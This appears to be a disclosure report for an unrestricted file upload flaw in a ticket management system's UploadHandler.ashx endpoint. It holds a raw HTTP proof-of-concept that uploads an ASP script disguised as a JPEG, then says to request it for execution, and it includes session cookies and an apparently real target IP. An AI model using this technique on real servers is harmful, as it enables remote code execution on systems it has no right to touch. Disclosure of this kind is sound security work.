



- Vulnerability Name: Ticket Management System Standard Version - File Upload Vulnerability

- Vulnerabilities URL:/WiChat/ashx/UploadHandler. ashx

- Vulnerability description: UploadHandler does not filter uploaded files in any way

- Temporary solution: Set the permission to disable script running on the folder UploadImage


- Vulnerability related code



- Method for reproducing vulnerabilities



- visit url/UploadImage/1.asp



- POC

```
GET /WeChat/ashx/UploadHandler.ashx HTTP/2
Host: host
Cookie: ASP.NET_SessionId=uuigwbm4v4b30ykuja5c2xsn; SESSIONID=VAEAADILWiMFEnkxjy0Io/Rwsst9uE3mxlZfIc8i6UI=&VAEAAPWddZzuRvJK3ALg8A==&HUAWEI &langfrombrows=zh-CN,&copyright=2014-2022; ASPSESSIONIDSGDRADAS=DPFDAIDBPACHPBHNFJOHLILC
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://117.145.188.82:8010/WeChat/ashx/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Length: 7483

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.asp"
Content-Type: image/jpeg

<% 
    Response.Write "Hello, World!"
%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

